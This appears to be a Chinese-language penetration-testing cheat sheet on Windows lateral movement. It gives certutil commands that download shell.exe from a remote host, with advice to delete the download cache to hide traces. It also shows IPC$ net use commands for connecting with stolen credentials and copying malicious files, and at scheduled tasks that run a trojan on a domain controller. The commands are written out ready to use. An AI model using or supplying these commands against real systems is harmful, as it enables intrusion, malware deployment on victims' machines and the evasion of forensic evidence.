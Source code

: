 #### Certutil
  Certutil 是Windows自带的命令行工具，用于备份证书服务，由于certutil下载文件都会留下缓存，所以一般都建议下载完文件后对缓存进行删除。
  目录为：`%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content`
```
certutil -urlcache -split -f http://192.168.1.1:8000/shell.exe c:\users\public\shell.exe 
//从192.168.1.1:8000下载shell.exe到本地c:\users\public\目录下
```
<a href="https://smms.app/image/Ki24ZBd6l3vqWme" target="_blank"><img src="https://s2.loli.net/2024/03/21/Ki24ZBd6l3vqWme.png" ></a>

#### wget
`wget -b -O filename http://example.com`默认覆盖文件

#### ipc$文件共享
  IPC$(Internet Process Connection)是共享"命名管道"的资源，它是为了让进程间通信而开放的命名管道，通过提供可信任的用户名和口令，连接双方可以建立安全的通道并以此通道进行加密数据的交换，从而实现对远程计算机的访问。
  **漏洞利用条件：**
  目标主机开启了139和445端口
  目标主机管理员开启了ipc$默认共享
```

net use \\DC的IP\ipc$ "password" /user:"username"   //连接主机
net use                             // 查看当前主机所建立的连接
dir \\ip\c$                         //查看主机目录
copy 本地文件地址 \\目标\c$         //传输恶意文件
tasklist /S 主机 /U 用户 /P 密码    // 查看目标主机进程
net use \\IP /del /y                //删除ipc$

>>建立 IPC 常见的错误代码:
5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限 
51：网络问题，Windows 无法找到网络路径
53：找不到网络路径，可能是 IP 地址错误、目标未开机、目标 Lanmanserver 服务未启动、有 防火墙等问题
67：找不到网络名，本地 Lanmanworkstation 服务未启动，目标删除 ipc$
1219：提供的凭据和已存在的凭据集冲突，说明已建立 IPC$，需要先删除
1326：账号密码错误
1792：目标 NetLogon 服务未启动，连接域控常常会出现此情况
2242：用户密码过期，目标有账号策略，强制定期更改密码
```

#### at计划任务
Windows Server 2008之前版本的操作系统中。我们可以通过at命令通过跳板机在目标主机DC上创建一次性计划任务，让计算机在指定的时间执行木马程序，从而获得对内网目标主机的控制。
```
copy 本地文件地址 \\目标\c$   //传输恶意文件
at \\ip 18:53:00 c:\shell.exe   //创建计划任务，让目标主机DC在指定的时间运行木马
at \\ip 任务ID /delete   //删除任务
```

## 手工判断靶标站点是Windows/Linux
1. 大小写检测：Windows大小写不敏感，而Liunx大小写敏感
2. PING指令: 根据TTL值，Windows一般情况下>100、Linux则<100

## 常见危险函数
<a href="https://smms.app/image/HFnAkSOw4GYxCNu" target="_blank"><img src="https://s2.loli.net/2024/03/21/HFnAkSOw4GYxCNu.png" ></a>
